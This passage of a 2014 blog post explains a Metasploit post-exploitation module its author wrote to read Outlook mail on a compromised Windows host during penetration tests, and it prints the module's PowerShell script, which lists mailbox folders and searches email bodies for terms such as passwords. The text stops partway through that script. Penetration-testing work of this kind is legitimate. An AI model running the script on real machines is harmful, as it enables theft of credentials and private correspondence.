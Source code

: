 ```yaml
---
id: 201
title: Reading Outlook using Metasploit
date: 2014-12-08T21:47:15+01:00
author: wesley
layout: post
permalink: /2014/12/reading-outlook-using-metasploit/
---
```

In penetration tests, it sometimes can be hard to escalate privileges on a (Windows<img style="float: right;" src="https://forsec.nl/wp-content/uploads/2014/12/Outlook.jpg" alt="Outlook" width="151" height="148" />) target system. In this situation it can be useful to gain access to resources with sensitive information, such as passwords.

Metasploit does not have any module to read email messages from a local Outlook installation. Outlook can however contain a lot of sensitive and useful information in a penetration test, such as networkcredentials. I decided to create a Metasploit module which can read and/or search the local Outlook email messages.

**How?**

In order to do this, the module is using powershell. The following powershell script is used by the Metasploit module:



{% highlight powershell %}
function GetSubfolders($root) {
  $folders = @()
  $folders += $root
  foreach ($folder in $root.Folders) {
    $folders += GetSubfolders($folder)
  }
  return $folders
}

function List-Folder {
  Clear-host
  Add-Type -Assembly "Microsoft.Office.Interop.Outlook"
  $Outlook = New-Object -ComObject Outlook.Application
  $Namespace = $Outlook.GetNameSpace("MAPI")
  $account = $NameSpace.Folders
  $folders = @()
  foreach ($acc in $account) {
    foreach ($folder in $acc.Folders) {
      $folders += GetSubfolders($folder)
    }
  }
  $folders | FT FolderPath
}

function Get-Emails {
  param ([String]$searchTerm,[String]$Folder)
  Add-Type -Assembly "Microsoft.Office.Interop.Outlook"
  $Outlook = New-Object -ComObject Outlook.Application
  $Namespace = $Outlook.GetNameSpace("MAPI")
  $account = $NameSpace.Folders
  $found = $false
  foreach ($acc in $account) {
    try {
      $Email = $acc.Folders.Item($Folder).Items
      $result = $Email | Where-Object {$_.HTMLBody -like '*' + $searchTerm + '*' -or $_.TaskSubject -like '*' + $searchTerm + '*'}
      if($result) {
        $found = $true
        $result | Format-List To, SenderEmailAddress, CreationTime, TaskSubject, HTMLBody
      }
    } catch {